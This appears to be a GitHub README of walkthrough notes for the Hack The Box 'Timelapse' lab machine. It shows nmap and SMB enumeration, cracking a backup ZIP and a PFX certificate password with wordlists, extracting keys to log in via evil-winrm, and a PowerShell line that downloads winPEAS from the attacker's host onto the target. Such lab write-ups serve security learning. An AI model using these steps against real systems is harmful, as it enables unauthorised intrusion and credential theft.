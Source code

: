 <div id="top"></div>
<!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->



<!-- PROJECT LOGO -->
<br />
<div align="center">

<h1 align="center">HTB Timelapse Notes</h1>

</div>

![Timelapse](https://user-images.githubusercontent.com/19478700/173301506-f8a85cbf-aafd-4028-85c9-63cfae763820.png)





<!-- ABOUT THE PROJECT -->
## About The Project
Timelapse HTB Machine


## Steps

### 1. Nmap Scans:
  ```sh
   nmap -p- 10.10.11.152
   ```
   ```sh
      PORT      STATE SERVICE          REASON
      53/tcp    open  domain           syn-ack ttl 127
      88/tcp    open  kerberos-sec     syn-ack ttl 127
      135/tcp   open  msrpc            syn-ack ttl 127
      139/tcp   open  netbios-ssn      syn-ack ttl 127
      389/tcp   open  ldap             syn-ack ttl 127
      445/tcp   open  microsoft-ds     syn-ack ttl 127
      464/tcp   open  kpasswd5         syn-ack ttl 127
      593/tcp   open  http-rpc-epmap   syn-ack ttl 127
      636/tcp   open  ldapssl          syn-ack ttl 127
      3268/tcp  open  globalcatLDAP    syn-ack ttl 127
      3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
      5986/tcp  open  wsmans           syn-ack ttl 127
      9389/tcp  open  adws             syn-ack ttl 127
      49667/tcp open  unknown          syn-ack ttl 127
      49673/tcp open  unknown          syn-ack ttl 127
      49674/tcp open  unknown          syn-ack ttl 127
      49696/tcp open  unknown          syn-ack ttl 127
      51231/tcp open  unknown          syn-ack ttl 127
   ```


```sh
   nmap -sVC 10.10.11.152
   ```


```sh
   PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-06-13 15:03:29Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?      syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
   ```
   
   

### 2.SMB Enumeration:
  ```sh
   smbclient -N -L 10.10.11.152
   ```

   ```sh
   Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
   ```

  Ivestiating we find several files on Shares share:

   ```sh
   smbclient \\\\10.10.11.152\\Shares
   ```

   ```sh
    LAPS_Datasheet.docx               LAPS.x64.msi
    LAPS_OperationsGuide.docx         winrm_backup.zip
    LAPS_TechnicalSpecification.docx

   ```

  winrm_backup seems interesting but its password protected.
  DOCX Files contain documentation about how passwords are managed arround the directory.
  
### 3.Cracking ZIP:
  
  lets try to crack the zip
   ```sh
   fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt
   ```
   ```sh
   PASSWORD FOUND!!!!: pw == supremelegacy
   ```
   Zip password was weak: supremelegacy
   We obtain legacyy_dev_auth.pfx
   
   

### 4.Cracking pfx:
  A quick Google search about extracting cert keys from pfx:
  https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file
  but we need to obtain the pfx key first so we are gonna try to crack it using john
  Convert:
  ```sh
  pfx2john legacyy_dev_auth.pfx > pfx_john_legacy.hash
  ```
  
  ```sh
  john -w=/usr/share/wordlists/rockyou.txt pfx_john_legacy.hash 
  ```
  
  ```sh
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:02:13 DONE (2022-06-13 04:00) 0.007506g/s 24256p/s 24256c/s 24256C/s thuglife03282006..thug209
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
  Found pfx pass: thuglegacy
  
  Now lets extract key and cert:
  
  Extract cert:
   ```sh
   openssl pkcs12 -in legacyy_dev_auth.pfx -out cert.pem
   ```
   
   Extract priv key:
   ```sh
   openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.pem -nodes
   ``` 
   
   After formatting the files correctly we can connect via ssh:
   
   ```sh
   evil-winrm -S -k formated/key.key -c formated/cert.crt -i 10.10.11.152
   ``` 

![image](https://user-images.githubusercontent.com/19478700/173311463-09780f02-46e4-4b45-8b29-035ae846986b.png)

  
##### USER FLAG OWNED

![image](https://user-images.githubusercontent.com/19478700/173313648-fb8d2a9d-8b5a-4d3f-9771-e3fec5ea63d3.png)


   
### 5:Privilege Escalation (System OWN):

Lets run winpeas:

```ps
Invoke-WebRequest -Uri 10.10.14.20:8000/winPEASx64.exe -OutFile winpeas.exe
````   
![image](https://user-images.githubusercontent.com/19478700/173314965-14ff10cc-c549-4570-9114-24cdf709562f.png)
![image](https://user-images.githubusercontent.com/19478700/173315089-57029e2f-f9dc-4e1f-8849-d6f241d79822.png)


<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- CONTACT -->
## Contact

Pol Galvez - polgalvezsoriano@gmail.com

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [aidenpearce369.github.io](aidenpearce369.github.io)

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/github_username/repo_name.svg?style=for-the-badge
[contributors-url]: https://github.com/github_username/repo_name/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/github_username/repo_name.svg?style=for-the-badge
[forks-url]: https://github.com/github_username/repo_name/network/members
[stars-shield]: https://img.shields.io/github/stars/github_username/repo_name.svg?style=for-the-badge
[stars-url]: https://github.com/github_username/repo_name/stargazers
[issues-shield]: https://img.shields.io/github/issues/github_username/repo_name.svg?style=for-the-badge
[issues-url]: https://github.com/github_username/repo_name/issues
[license-shield]: https://img.shields.io/github/license/github_username/repo_name.svg?style=for-the-badge
[license-url]: https://github.com/github_username/repo_name/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/linkedin_username
[product-screenshot]: images/screenshot.png
